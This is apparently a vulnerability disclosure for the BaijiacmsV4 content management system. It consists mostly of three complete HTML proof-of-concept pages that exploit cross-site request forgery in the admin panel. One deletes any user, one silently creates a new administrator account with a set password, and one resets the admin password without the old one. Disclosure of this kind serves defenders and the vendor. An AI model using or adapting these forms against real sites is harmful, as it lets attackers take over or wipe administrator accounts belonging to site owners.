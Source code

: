 # why make this

BaijiacmsV4 does not open the issue, it is only possible to write a vulnerability here.

After administrator logged in, we can use CSRF add a new administrator or delete any user(include administrator), you can even change your current account password without using a password.

# poc
## del any user

poc:
```
<html>
<body>
    <script>
        history.pushState('', '', '/')
    </script>
    <form action="http://localhost/index.php">
        <input type="hidden" name="mod" value="site" />
        <input type="hidden" name="op" value="deleteuser" />
        <input type="hidden" name="id" value="3" />
        <!--del user with id -->
        <input type="hidden" name="act" value="manager" />
        <input type="hidden" name="do" value="user" />
        <input type="hidden" name="beid" value="1" />
        <input type="submit" value="Submit request" />
    </form>
</body>
</html>
```
## add a user(admin)

poc:
```
<html>
<body>
    <script>
        history.pushState('', '', '/')
    </script>
    <form action="http://localhost/index.php?mod=site&op=edituser&act=manager&do=user&beid=1" method="POST">
        <input type="hidden" name="id" value="" />
        <input type="hidden" name="is&#95;admin" value="1" />
        <!-- add a admin -->
        <input type="hidden" name="store" value="0" />
        <input type="hidden" name="username" value="tester1" />
        <input type="hidden" name="newpassword" value="123456" />
        <input type="hidden" name="confirmpassword" value="123456" />
        <input type="hidden" name="submit" value="%E6%8F%90%E4%BA%A4" />
        <input type="submit" value="Submit request" />
    </form>
</body>
</html>
```
## change admin password

poc:
```
<html>
<body>
    <script>
        history.pushState('', '', '/')
    </script>
    <form action="http://localhost/index.php?mod=site&op=changepwd&id=1&act=manager&do=user&beid=1" method="POST">
        <input type="hidden" name="username" value="admin" />
        <!--only use username -->
        <input type="hidden" name="newpassword" value="12345678" />
        <input type="hidden" name="confirmpassword" value="12345678" />
        <input type="hidden" name="submit" value="%E6%8F%90%E4%BA%A4;" />
        <input type="submit" value="Submit request" />
    </form>
</body>
</html>
```